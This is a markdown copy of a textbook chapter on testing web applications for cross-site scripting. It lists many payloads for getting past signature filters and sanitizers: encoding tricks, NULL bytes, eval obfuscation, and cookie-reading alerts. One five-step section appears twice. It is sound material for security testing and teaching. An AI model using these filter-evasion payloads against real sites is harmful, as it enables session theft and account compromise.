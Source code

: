 ## Finding and Exploiting XSS Vulnerabilities

A basic approach to identifying XSS vulnerabilities is to use a standard proof-of-concept attack string such as the following:
```
“><script>alert(document.cookie)</script>
```
This string is submitted as every parameter to every page of the application, and responses are monitored for the appearance of this same string. If cases are found where the attack string appears unmodified within the response, the application is almost certainly vulnerable to XSS.

If your intention is simply to identify some instance of XSS within the application as quickly as possible to launch an attack against other application users, this basic approach is probably the most effective, because it can be easily auto- mated and produces minimal false positives. However, if your objective is to perform a comprehensive test of the application to locate as many individual vulnerabilities as possible, the basic approach needs to be supplemented with more sophisticated techniques. There are several different ways in which XSS vulnerabilities may exist within an application that will not be identified via the basic approach to detection:

- Many applications implement rudimentary blacklist-based filters in an attempt to prevent XSS attacks. These filters typically look for expressions such as <script> within request parameters and take some defensive action such as removing or encoding the expression or blocking the request. These filters often block the attack strings commonly employed in the basic approach to detection. However, just because one common attack string is being filtered, this does not mean that an exploitable vulnerability does not exist. As you will see, there are cases in which a working XSS exploit can be created without using <script> tags and even without using commonly filtered characters such as “ < > and /.
 
- The anti-XSS filters implemented within many applications are defective and can be circumvented through various means. For example, suppose that an application strips any <script> tags from user input before it is processed. This means that the attack string used in the basic approach will not be returned in any of the application’s responses. However, it may be that one or more of the following strings will bypass the filter and result in a successful XSS exploit:
 
```  
“><script >alert(document.cookie)</script >
“><ScRiPt>alert(document.cookie)</ScRiPt>
“%3e%3cscript%3ealert(document.cookie)%3c/script%3e
“><scr<script>ipt>alert(document.cookie)</scr</script>ipt>
%00“><script>alert(document.cookie)</script>
```
The first stage in the testing process is to submit a benign string to each entry point and to identify every location in the response where the string is reflected:
 
 1. Choose a unique arbitrary string that does not appear anywhere within the application and that contains only alphabetical characters and there-fore is unlikely to be affected by any XSS-specific filters. For example:

       ```myxsstestdmqlwp```

Submit this string as every parameter to every page, targeting only one parameter at a time.

 2. Monitor the application’s responses for any appearance of this same string. Make a note of every parameter whose value is being copied into the application’s response. These are not necessarily vulnerable, but each instance identified is a candidate for further investigation, as described in the next section.

 3. Note that both GET and POST requests need to be tested. You should include every parameter within both the URL query string and the message body. Although a smaller range of delivery mechanisms exists for XSS vulnerabilities that can be triggered only by a POST request, exploitation is still possible, as previously described.

 4. In any cases where XSS was found in a POST request, use the “change request method” option in Burp to determine whether the same attack could be performed as a GET request.

 5. In addition to the standard request parameters, you should test every instance in which the application processes the contents of an HTTP request header. A common XSS vulnerability arises in error messages, where items such as the Referer and User-Agent headers are copied into the message’s contents. These headers are valid vehicles for delivering a reflected XSS attack, because an attacker can use a Flash object to induce a victim to issue a request containing arbitrary HTTP headers.

 
## Identifying Reflections of User Input
The first stage in the testing process is to submit a benign string to each entry point and to identify every location in the response where the string is reflected.

1. Choose a unique arbitrary string that does not appear anywhere within the application and that contains only alphabetical characters and there-
fore is unlikely to be affected by any XSS-specific filters. For example:

     ```myxsstestdmqlwp```

  Submit this string as every parameter to every page, targeting only one parameter at a time.

2. Monitor the application’s responses for any appearance of this same string. Make a note of every parameter whose value is being copied into the application’s response. These are not necessarily vulnerable, but each instance identified is a candidate for further investigation, as described in the next section.

3. Note that both GET and POST requests need to be tested. You should include every parameter within both the URL query string and the message body. Although a smaller range of delivery mechanisms exists for XSS vulnerabilities that can be triggered only by a POST request, exploitation is still possible, as previously described.

4. In any cases where XSS was found in a POST request, use the “change request method” option in Burp to determine whether the same attack could be performed as a GET request.

5. In addition to the standard request parameters, you should test every instance in which the application processes the contents of an HTTP request header. A common XSS vulnerability arises in error messages, where items such as the Referer and User-Agent headers are copied into the message’s contents. These headers are valid vehicles for delivering a reflected XSS attack, because an attacker can use a Flash object to induce a victim to issue a request containing arbitrary HTTP headers.

## Testing Reflections to Introduce Script

You must manually investigate each instance of reflected input that you have identified to verify whether it is actually exploitable. In each location where data is reflected in the response, you need to identify the syntactic context of that data. You must find a way to modify your input such that, when it is copied into the same location in the application’s response, it results in execution of arbitrary script. Let’s look at some examples.

Example 1: A Tag Attribute Value
Suppose that the returned page contains the following:
 
```<input type=”text” name=”address1” value=”myxsstestdmqlwp”>```

One obvious way to craft an XSS exploit is to terminate the double quotation marks that enclose the attribute value, close the <input> tag, and then employ some means of introducing JavaScript, such as a <script> tag. For example:

 ```“><script>alert(1)</script>```

An alternative method in this situation, which may bypass certain input filters, is to remain within the <input> tag itself but inject an event handler containing JavaScript. For example:
 
```“ onfocus=”alert(1)```
 
## Probing Defense Filters

Very often, you will discover that the server modifies your initial attempted exploits in some way, so they do not succeed in executing your injected script. 
 
If this happens, do not give up! Your next task is to determine what server-side processing is occurring that is affecting your input. There are three broad possibilities:

 - The application (or a web application firewall protecting the application) has identified an attack signature and has blocked your input.

 - The application has accepted your input but has performed some kind of sanitization or encoding on the attack string.

 - The application has truncated your attack string to a fixed maximum length. We will look at each scenario in turn and discuss various ways in which the obstacles presented by the application’s processing can be bypassed.

## Beating Signature-Based Filters
 
 In the first type of filter, the application typically responds to your attack string
with an entirely different response than it did for the harmless string. For
example, it might respond with an error message, possibly even stating that a
possible XSS attack was detected, as shown in Figure 12-8.
 
 If this occurs, the next step is to determine what characters or expressions within your input are triggering the filter. An effective approach is to remove different parts of your string in turn and see whether the input is still being blocked. Typically, this process establishes fairly quickly that a specific expression such as <script> is causing the request to be blocked. You then need to test the filter to establish whether any bypasses exist. There are so many different ways to introduce script code into HTML pages that signature-based filters normally can be bypassed. You can find an alternative means of introducing script, or you can use slightly malformed syntax that browsers tolerate. This section examines the numerous different methods of executing scripts. Then it describes a wide range of techniques that can be used to bypass common filters.
 
 ## Bypassing Filters:HTML
 
Starting with the opening tag name, the most simple and naïve filters can be bypassed simply by varying the case of the characters used:

 ```<iMg onerror=alert(1) src=a>```

Going further, you can insert NULL bytes at any position:
```
<[%00]img onerror=alert(1) src=a>
<i[%00]mg onerror=alert(1) src=a>
```
(In these examples, [%XX] indicates the literal character with the hexadecimal ASCII code of XX. When submitting your attack to the application, generally you would use the URL-encoded form of the character. When reviewing the application’s response, you need to look for the literal decoded character being reflected.)

 **TIP** The NULL byte trick works on Internet Explorer anywhere within the HTML page. Liberal use of NULL bytes in XSS attacks often provides a quick way to bypass signature-based filters that are unaware of IE’s behavior. Using NULL bytes has historically proven effective against web application firewalls (WAFs) configured to block requests containing known attack strings. Because WAFs typically are written in native code for performance reasons, a NULL byte terminates the string in which it appears. This prevents the WAF from seeing the malicious payload that comes after the NULL (see Chapter 16 for more details)
 
**Space Following the Tag Name**

 Several characters can replace the space between the tag name and the first attribute name:
``` 
<img/onerror=alert(1) src=a>
<img[%09]onerror=alert(1) src=a>
<img[%0d]onerror=alert(1) src=a>
<img[%0a]onerror=alert(1) src=a>
<img/”onerror=alert(1) src=a>
<img/’onerror=alert(1) src=a>
<img/anyjunk/onerror=alert(1) src=a>
```
Note that even where an attack does not require any tag attributes, you should always try adding some superfluous content after the tag name, because this bypasses some simple filters:

 ```<script/anyjunk>alert(1)</script>```
 
**Attribute Values**
 
Within attribute values themselves, you can use the NULL byte trick, and you also can HTML-encode characters within the value:
 
```
<img onerror=a[%00]lert(1) src=a>
<img onerror=a&#x6c;ert(1) src=a>
```
Because the browser HTML-decodes the attribute value before processing it further, you can use HTML encoding to obfuscate your use of script code, thereby evading many filters. For example, the following attack bypasses many filters seeking to block use of the JavaScript pseudo-protocol handler:

 ```<iframe src=j&#x61;vasc&#x72ipt&#x3a;alert&#x28;1&#x29; >```

 When using HTML encoding, it is worth noting that browsers tolerate various deviations from the specifications, in ways that even filters that are aware of HTML encoding issues may overlook. You can use both decimal and hexa-decimal format, add superfluous leading zeros, and omit the trailing semicolon.

The following examples all work on at least one browser:
```
<img onerror=a&#x06c;ert(1) src=a>
<img onerror=a&#x006c;ert(1) src=a>
<img onerror=a&#x0006c;ert(1) src=a>
<img onerror=a&#108;ert(1) src=a>
<img onerror=a&#0108;ert(1) src=a>
<img onerror=a&#108ert(1) src=a>
<img onerror=a&#0108ert(1) src=a>
```
 
**Tag Brackets**

In some situations, by exploiting quirky application or browser behavior, it is possible to use invalid tag brackets and still cause the browser to process the tag in the way the attack requires.

Some applications perform a superfluous URL decode of input after their input filters have been applied, so the following input appearing in a request:

 ```%253cimg%20onerror=alert(1)%20src=a%253e```

is URL-decoded by the application server and passed to the application as:

 ```%3cimg onerror=alert(1) src=a%3e```
 
which does not contain any tag brackets and therefore is not blocked by the input filter. However, the application then performs a second URL decode, so
the input becomes:
 
```<img onerror=alert(1) src=a>```
 
which is echoed to the user, causing the attack to execute.

**Glyphs**
 
As described in Chapter 2, something similar can happen when an application framework “translates” unusual Unicode characters into their nearest ASCII
equivalents based on the similarity of their glyphs or phonetics. For example, the following input uses Unicode double-angle quotation marks (%u00AB and
%u00BB) instead of tag brackets:
 
```«img onerror=alert(1) src=a»```
 
The application’s input fi lters may allow this input because it does not contain any problematic HTML. However, if the application framework translates the quotation marks into tag characters at the point where the input is inserted into a response, the attack succeeds. Numerous applications have been found vulnerable to this kind of attack, which developers may be forgiven for overlooking.
 
Some input filters identify HTML tags by simply matching opening and closing angle brackets, extracting the contents, and comparing this to a blacklist
of tag names. In this situation, you may be able to bypass the filter by using superfluous brackets, which the browser tolerates:

 ```<<script>alert(1);//<</script>```

In some cases, unexpected behavior in browsers’ HTML parsers can be leveraged to deliver an attack that bypasses an application’s input filters. For example, the following HTML, which uses ECMAScript for XML (E4X) syntax, does not contain a valid opening script tag but nevertheless executes the enclosed script on current versions of Firefox:

 ```<script<{alert(1)}/></script>```
 
TIP In several of the filter bypasses described, the attack results in HTML that is malformed but is nevertheless tolerated by the client browser. Because numerous quite legitimate websites contain HTML that does not strictly comply to the standards, browsers accept HTML that is deviant in all kinds of ways. They effectively fix the errors behind the scenes before the page is rendered. Often, when you are trying to fine-tune an attack in an unusual situation, it can be helpful to view the virtual HTML that the browser constructs out of the server’s actual response. In Firefox, you can use the WebDeveloper tool, which contains a View Generated Source function that performs precisely this task.

 **Character Sets**

 In some situations, you can employ a powerful means of bypassing many types of filters by causing the application to accept a nonstandard encoding of your attack payload. The following examples show some representations of the string 
 
 ```<script>alert(document.cookie)</script>``` 
 
in alternative character sets:

**UTF-7**
 
```
+ADw-script+AD4-alert(document.cookie)+ADw-/script+AD4-
```
 
**US-ASCII**
 
```
BC 73 63 72 69 70 74 BE 61 6C 65 72 74 28 64 6F ; ¼script¾alert(do
63 75 6D 65 6E 74 2E 63 6F 6F 6B 69 65 29 BC 2F ; cument.cookie)¼/
73 63 72 69 70 74 BE ; script¾
```

**UTF-16**
 
```
FF FE 3C 00 73 00 63 00 72 00 69 00 70 00 74 00 ; ÿþ<.s.c.r.i.p.t.
3E 00 61 00 6C 00 65 00 72 00 74 00 28 00 64 00 ; >.a.l.e.r.t.(.d.
6F 00 63 00 75 00 6D 00 65 00 6E 00 74 00 2E 00 ; o.c.u.m.e.n.t...
63 00 6F 00 6F 00 6B 00 69 00 65 00 29 00 3C 00 ; c.o.o.k.i.e.).<.
2F 00 73 00 63 00 72 00 69 00 70 00 74 00 3E 00 ; /.s.c.r.i.p.t.>. 
``` 
 
**Using JavaScript Escaping**
 
JavaScript allows various kinds of character escaping, which you can use to avoid including required expressions in their literal form. Unicode escapes can be used to represent characters within JavaScript keywords, allowing you to bypass many kinds of filters:
 
```
<script>a\u006cert(1);</script>
```

If you can make use of the ```eval``` command, possibly by using the preceding technique to escape some of its characters, you can execute other commands by passing them to the ```eval``` command in string form. This allows you to use various string manipulation techniques to hide the command you are executing. Within JavaScript strings, you can use Unicode escapes, hexadecimal escapes, and octal escapes:

```
<script>eval(‘a\u006cert(1)’);</script>
<script>eval(‘a\x6cert(1)’);</script>
<script>eval(‘a\154ert(1)’);</script>
```

Furthermore, superfluous escape characters within strings are ignored:

```
<script>eval(‘a\l\ert\(1\)’);</script>
```

**Dynamically Constructing Strings**

You can use other techniques to dynamically construct strings to use in your attacks:

```
<script>eval(‘al’+’ert(1)’);</script>
<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41));</script>
<script>eval(atob(‘amF2YXNjcmlwdDphbGVydCgxKQ’));</script>
```

The final example, which works on Firefox, allows you to decode a Base64-encoded command before passing it to ```eval```
 
**Alternatives to eval**

If direct calls to the eval command are not possible, you have other ways to execute commands in string form:
 
```
<script>’alert(1)’.replace(/.+/,eval)</script>
<script>function::[‘alert’](1)</script>
```

**Alternatives to Dots**

If the dot character is being blocked, you can use other methods to perform dereferences:

```
<script>alert(document[‘cookie’])</script>
<script>with(document)alert(cookie)</script>
```
 
**Combining Multiple Techniques**

The techniques described so far can often be used in combination to apply several layers of obfuscation to your attack. Furthermore, in cases where JavaScript is being used within an HTML tag attribute (via an event handler, scripting pseudo-protocol, or dynamically evaluated style), you can combine these techniques with HTML encoding. The browser HTML-decodes the tag attribute value before the JavaScript it contains is interpreted. In the following example, the “e” character in “alert” has been escaped using Unicode escaping, and the backslash used in the Unicode escape has been HTML-encoded:

```
<img onerror=eval(‘al&#x5c;u0065rt(1)’) src=a>
```

Of course, any of the other characters within the onerror attribute value could also be HTML-encoded to further hide the attack:

```
<img onerror=&#x65;&#x76;&#x61;&#x6c;&#x28;&#x27;al&#x5c;u0065rt&#x28;1&
#x29;&#x27;&#x29; src=a>
```

This technique enables you to bypass many filters on JavaScript code, because you can avoid using any JavaScript keywords or other syntax such as quotes, periods, and brackets
 
**Using Encoded Scripts**

On Internet Explorer, you can use Microsoft’s custom script-encoding algorithm to hide the contents of scripts and potentially bypass some input filters:

```
<img onerror=”VBScript.Encode:#@~^CAAAAA==\ko$K6,FoQIAAA==^#~@” src=a>
<img language=”JScript.Encode” onerror=”#@~^CAAAAA==C^+.D`8#mgIAAA==^#~@” src=a>
```
This encoding was originally designed to prevent users from inspecting client-side scripts easily by viewing the source code for the HTML page. It has since been reverse-engineered, and numerous tools and websites will let you decode encoded scripts. You can encode your own scripts for use in attacks via Microsoft’s command-line utility srcenc in older versions of Windows.
 
**Beating Sanitization** 
 
When you encounter this defense, your first step is to determine precisely which characters and expressions are being sanitized, and whether it is still possible to carry out an attack without directly employing these characters and expressions. For example, if your data is being inserted directly into an existing script, you may not need to employ any HTML tag characters. Or, if the application is removing <script> tags from your input, you may be able to use a different tag with a suitable event handler. Here, you should consider all the techniques already discussed for dealing with signature-based filters, including using layers of encoding, NULL bytes, nonstandard syntax, and obfuscated script code. By modifying your input in the various ways described, you may be able to devise an attack that does not contain any of the characters or expressions that the filter is sanitizing and therefore successfully bypass it. If it appears impossible to perform an attack without using input that is being sanitized, you need to test the effectiveness of the sanitizing filter to establish whether any bypasses exist.

 
 As described in Chapter 2, several mistakes often appear in sanitizing filters. Some string manipulation APIs contain methods to replace only the first instance of a matched expression, and these are sometimes easily confused with methods that replace all instances. So if <script> is being stripped from your input, you should try the following to check whether all instances are being removed:
 
```
<script><script>alert(1)</script>
```
 
In this situation, you should also check whether the sanitization is being performed recursively:

```
<scr<script>ipt>alert(1)</script>
```

Furthermore, if the filter performs several sanitizing steps on your input, you should check whether the order or interplay between these can be exploited.
For example, if the filter strips ```<script>``` recursively and then strips ```<object>``` recursively, the following attack may succeed:

```
<scr<object>ipt>alert(1)</script>
```

 When you are injecting into a quoted string in an existing script, it is common to find that the application sanitizes your input by placing the backslash character before any quotation mark characters you submit. This escapes your quotation marks, preventing you from terminating the string and injecting arbitrary script. In this situation, you should always verify whether the backslash character itself is being escaped. If not, a simple filter bypass is possible.
For example, if you control the value foo in:

```
var a = ‘foo’;
```
you can inject:
```
foo\’; alert(1);//
```
 This results in the following response, in which your injected script exe-
cutes. Note the use of the JavaScript comment character // to comment out the remainder of the line, thus preventing a syntax error caused by the application’s own string delimiter:

```
var a = ‘foo\\’; alert(1);//’;
```
References: https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwim7cD06oL5AhWZk4kEHcDGAzMQFnoECAYQAQ&url=http%3A%2F%2Fwww.xss-payloads.com%2F&usg=AOvVaw1-hKbfrHEIcldlShn1bjoC
